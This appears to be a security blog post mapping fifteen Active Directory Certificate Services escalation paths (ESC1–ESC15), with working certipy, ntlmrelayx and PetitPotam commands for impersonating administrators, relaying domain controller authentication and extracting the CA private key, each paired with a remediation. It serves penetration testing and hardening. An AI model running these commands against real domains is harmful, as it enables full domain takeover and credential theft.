

# ADCS Escalation Paths: ESC1–ESC15

<div align="right"><sub>May 2026</sub></div>

---

## Overview

Active Directory Certificate Services (ADCS) remains one of the most consistently overlooked attack surfaces in enterprise environments. Since SpecterOps published *Certified Pre-Owned* in 2021, the community has catalogued fifteen distinct escalation paths (ESC1–ESC15) — ranging from trivial SAN spoofing to CA key extraction to a 2024 zero-day in schema v1 templates (CVE-2024-49019).

The core issue: ADCS is deeply integrated with Kerberos authentication via PKINIT, meaning a forged or improperly issued certificate often yields a TGT — and with it, domain compromise. Many of these misconfigurations ship as defaults or emerge from legacy configurations that were never hardened.

This post maps every known ESC path, organized by exploitability and grouped by attack class, with commands and remediations.

---

## ESC Attack Surface Map



---

## ESC Paths by Exploitability

| Rank | ESC | Name | Prevalence | Complexity |
|------|-----|------|------------|------------|
| 1 | ESC8 | NTLM Relay to HTTP Web Enrollment | Very High | Low |
| 2 | ESC1 | SAN Spoofing via Misconfigured Template | Very High | Low |
| 3 | ESC4 | Write Control Over Template | High | Low |
| 4 | ESC6 | CA-Wide SAN Flag (`EDITF_ATTRIBUTESUBJECTALTNAME2`) | High | Low |
| 5 | ESC3 | Enrollment Agent Abuse | Medium | Medium |
| 6 | ESC2 | Any Purpose / No EKU Template | Medium | Low |
| 7 | ESC7 | CA ACL Abuse (ManageCA) | Medium | Medium |
| 8 | ESC11 | NTLM Relay to RPC (ICPR) | Medium | Medium |
| 9 | ESC13 | OID Group Link | Low–Medium | Medium |
| 10 | ESC5 | PKI Object ACL Abuse | Low–Medium | High |
| 11 | ESC9 | No Security Extension | Low | High |
| 12 | ESC10 | Weak Certificate Mapping | Low | High |
| 13 | ESC15 | v1 Template Application Policy (CVE-2024-49019) | Low | Medium |
| 14 | ESC12 | Shell Access to CA Server | Very Low | Low |
| 15 | ESC14 | Weak Explicit Mapping (`altSecurityIdentities`) | Low | High |

---

## Technical Breakdown

### ESC1 — SAN Spoofing via Misconfigured Template

The `CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT` flag on a template lets any enrolling user specify an arbitrary Subject Alternative Name. If the template carries an authentication EKU and low-priv users have Enroll rights, that's an instant path to any account in the domain.

**Conditions:** `CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT` set + auth EKU + low-priv enrollment rights

```bash
certipy req -u user@domain -p pass -ca 'CA-Name' -template 'VulnTemplate' -upn 'administrator@domain'
certipy auth -pfx administrator.pfx
```

**Fix:** Remove `CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT`. If operationally required, enable CA Manager approval on the template.

---

### ESC2 — Any Purpose / No EKU

A template carrying the Any Purpose EKU (`2.5.29.37.0`) or no EKU at all can be used for client authentication regardless of intent. Chains naturally into ESC3 if SAN control isn't available.

**Fix:** Never assign Any Purpose EKU. Define only the EKUs the template actually needs.

---

### ESC3 — Enrollment Agent Abuse

Two-template chain. First obtain a cert from a template with the **Certificate Request Agent** EKU. That cert lets you enroll in other templates on behalf of any user, bypassing the enrollment identity check.

```bash
# Step 1: obtain enrollment agent cert
certipy req -u user@domain -p pass -ca 'CA-Name' -template 'AgentTemplate'

# Step 2: enroll on behalf of DA
certipy req -u user@domain -p pass -ca 'CA-Name' -template 'AuthTemplate' \
  -on-behalf-of 'domain\administrator' -pfx agent.pfx
```

**Fix:** Configure enrollment agent restrictions on the CA. Audit all templates with the Request Agent EKU.

---

### ESC4 — Write Control Over Template

Any write permission (WriteProperty, WriteDacl, WriteOwner, GenericWrite/All) on a certificate template AD object lets a low-priv user modify it — effectively converting it into an ESC1. Certipy automates this and can restore the original configuration.

```bash
certipy template -u user@domain -p pass -template 'VulnTemplate' -save-old
certipy req -u user@domain -p pass -ca 'CA-Name' -template 'VulnTemplate' -upn 'administrator@domain'
certipy template -u user@domain -p pass -template 'VulnTemplate' -configuration old.json
```

**Fix:** Template ACLs should be restricted to Domain Admins / Enterprise Admins. Run BloodHound to surface unexpected write paths.

---

### ESC5 — PKI Object ACL Abuse

Extends ESC4's logic to higher-level PKI objects: the CA computer object, the CA AD object, `NTAuthCertificates`, and the Enrollment Services container. Write access to any of these can compromise the entire CA or force certificate trust for domain authentication.

**Fix:** Lock down ACLs on all PKI AD objects. Treat them as Tier 0 assets.

---

### ESC6 — `EDITF_ATTRIBUTESUBJECTALTNAME2` on CA

This CA-level registry flag overrides all template settings and allows any certificate request to include an attacker-supplied SAN — turning every auth-capable template into an ESC1, regardless of whether the template itself allows it.

```bash
# Verify the flag is set
certutil -getreg policy\EditFlags

# Remediate
certutil -config "CA-Server\CA-Name" -setreg policy\EditFlags -EDITF_ATTRIBUTESUBJECTALTNAME2
net stop certsvc && net start certsvc
```

---

### ESC7 — ManageCA / ManageCertificates Abuse

Low-priv access to **ManageCertificates** lets an attacker approve pending certificate requests. **ManageCA** goes further — it allows full CA reconfiguration, including enabling the ESC6 flag remotely.

```bash
# Enable EDITF_ATTRIBUTESUBJECTALTNAME2 via ManageCA, then exploit as ESC6
certipy ca -u user@domain -p pass -ca 'CA-Name' -enable-editf
```

**Fix:** CA Officer / CA Manager rights should be restricted to PKI administrators. Audit regularly.

---

### ESC8 — NTLM Relay to HTTP Web Enrollment

The highest-prevalence, lowest-complexity path. The certsrv IIS endpoint accepts NTLM by default and doesn't enforce EPA or require HTTPS. Relay a coerced DC authentication to it, get a machine account certificate, then TGT + DCSync.

```bash
# Terminal 1: relay NTLM to certsrv
ntlmrelayx.py -t 'http://ca.domain/certsrv/certfnsh.asp' --adcs --template 'DomainController'

# Terminal 2: coerce DC authentication
python3 PetitPotam.py attacker_ip dc_ip

# Terminal 3: authenticate with obtained cert
certipy auth -pfx dc.pfx -dc-ip dc_ip
```

**Fix:** Disable NTLM on certsrv, enable EPA, require HTTPS. Disable web enrollment entirely if unused.

---

### ESC9 — No Security Extension

Requires `StrongCertificateBindingEnforcement` ≠ 2 on DCs, plus `CT_FLAG_NO_SECURITY_EXTENSION` on the template. The issued cert lacks the `szOID_NTDS_CA_SECURITY_EXT` SID-binding extension. Combined with write access to a target account's UPN, an attacker redirects certificate authentication to that account.

**Fix:** Set `StrongCertificateBindingEnforcement = 2` (KB5014754). Remove the flag from templates.

---

### ESC10 — Weak Certificate Mapping (Registry)

Same premise as ESC9 but driven by DC-side registry configuration (`CertificateMappingMethods`, `StrongCertificateBindingEnforcement`). Requires write access to a victim account's UPN or SAN attributes.

**Fix:** Enforce strong mapping via KB5014754.

---

### ESC11 — NTLM Relay to ICPR (RPC)

ESC8's quieter sibling. Targets the RPC-based enrollment interface (`\pipe\cert`) instead of HTTP certsrv. Achieves identical results if the ICPR interface doesn't enforce signing.

```bash
ntlmrelayx.py -t 'rpc://ca.domain' --adcs --template 'DomainController'
# + coercion as in ESC8
```

**Fix:** Enforce RPC signing. Require packet integrity on the ICPR interface.

---

### ESC12 — CA Private Key Extraction

Post-compromise technique. Shell access to the CA server allows extraction of the CA's private key via DPAPI or a software HSM. With the private key, arbitrary certificates can be forged for any account — offline, no ADCS API calls needed.

```bash
certipy ca -backup -u admin@domain -p pass -ca 'CA-Name'
# on-box alternatives: SharpDPAPI, mimikatz crypto::certificates
```

**Fix:** Use a hardware HSM for CA private key storage. The CA server is Tier 0 — treat access to it as equivalent to Domain Admin.

---

### ESC13 — OID Group Link

An issuance policy OID on a template can be linked to an AD group via `msDS-OIDToGroupLink`. Authenticating with a certificate issued under that policy grants dynamic group membership — including privileged groups — via PKINIT.

```bash
certipy find -u user@domain -p pass         # identify OID group links
certipy req -u user@domain -p pass -ca 'CA-Name' -template 'LinkedTemplate'
certipy auth -pfx user.pfx                  # auth grants linked group membership
```

**Fix:** Audit `msDS-OIDToGroupLink` attributes on all OID objects. Restrict enrollment on any template linked to a privileged group.

---

### ESC14 — `altSecurityIdentities` Write

Write access to a target account's `altSecurityIdentities` attribute (e.g., via GenericWrite) lets an attacker map any certificate they control to that account. PKINIT auth with that cert authenticates as the target. Requires weak certificate binding mode on DCs.

**Fix:** Restrict write access to `altSecurityIdentities`. Enforce strong certificate binding (KB5014754).

---

### ESC15 — v1 Template Application Policy Injection (CVE-2024-49019)

Disclosed November 2024. Schema v1 certificate templates (legacy, pre-EKU enforcement) do not validate Application Policy extensions in the request. An attacker with enrollment rights on any v1 template can inject Client Authentication into the issued certificate — even if the template was never configured for it.

```bash
certipy req -u user@domain -p pass -ca 'CA-Name' -template 'v1Template' \
  -application-policies 'Client Authentication'
```

**Fix:** Apply the November 2024 Cumulative Update patching CVE-2024-49019. Audit and remove low-priv enrollment rights on all schema v1 templates.

---

## Attack Class Quick Reference

```
Template misconfigs (need enrollment rights):
  ESC1  → Enrollee-supplied SAN           → request cert as any user
  ESC2  → Any Purpose / No EKU            → chain with ESC3 or direct auth
  ESC3  → Enrollment Agent EKU            → enroll on behalf of DA
  ESC4  → Write on template               → modify to ESC1, exploit, restore
  ESC6  → CA-wide SAN flag                → every auth template becomes ESC1
  ESC15 → v1 template + CVE-2024-49019    → inject auth EKU into any v1 cert

ACL / permission misconfigs:
  ESC5  → Write on PKI AD objects         → varies by object, chains many ways
  ESC7  → ManageCA / ManageCerts on CA    → approve requests or flip ESC6 flag

Relay attacks (need network position + coercion):
  ESC8  → Relay NTLM to certsrv (HTTP)    → cert for coerced machine account
  ESC11 → Relay NTLM to ICPR (RPC)        → same result, different transport

Certificate binding weaknesses (need write on victim account attributes):
  ESC9  → No security extension + weak binding  → UPN write → cert for victim
  ESC10 → Weak registry mapping                 → same premise as ESC9
  ESC14 → Write altSecurityIdentities           → map any cert to any account

Post-compromise:
  ESC12 → Shell on CA server              → extract CA private key, forge any cert

Identity-based:
  ESC13 → OID group link                  → enrolling grants group membership
```

---

## Key Takeaways

- ESC8 and ESC1 are the most prevalent and require the least skill to exploit — if web enrollment is enabled and any template allows enrollee-supplied SANs, assume the environment is compromisable from a standard domain account.
- `certipy find` is the fastest way to enumerate all of these misconfigurations in a single sweep; run it as a low-priv user to get an attacker-realistic view.
- CVE-2024-49019 (ESC15) is a reminder that v1 templates should be treated as universally dangerous — patch and restrict enrollment regardless of perceived sensitivity.
- Strong certificate binding (`StrongCertificateBindingEnforcement = 2` via KB5014754) closes ESC9, ESC10, and ESC14 in one shot; it is one of the highest-leverage ADCS hardening actions available.
- The CA server is Tier 0. Any path that gives shell access (ESC12) or ManageCA rights (ESC7) is operationally equivalent to Domain Admin and should be modeled accordingly in your threat model.

---

## References

- [Certified Pre-Owned — SpecterOps (Schroeder & Christensen, 2021)](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf)
- [Certipy — Oliver Lyak](https://github.com/ly4k/Certipy)
- [CVE-2024-49019 — MSRC](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2024-49019)
- [KB5014754 — Certificate-Based Authentication Changes on Windows Domain Controllers](https://support.microsoft.com/en-us/topic/kb5014754-certificate-based-authentication-changes-on-windows-domain-controllers-ad2c23b0-15d8-4340-a468-4d4f3b188f16)
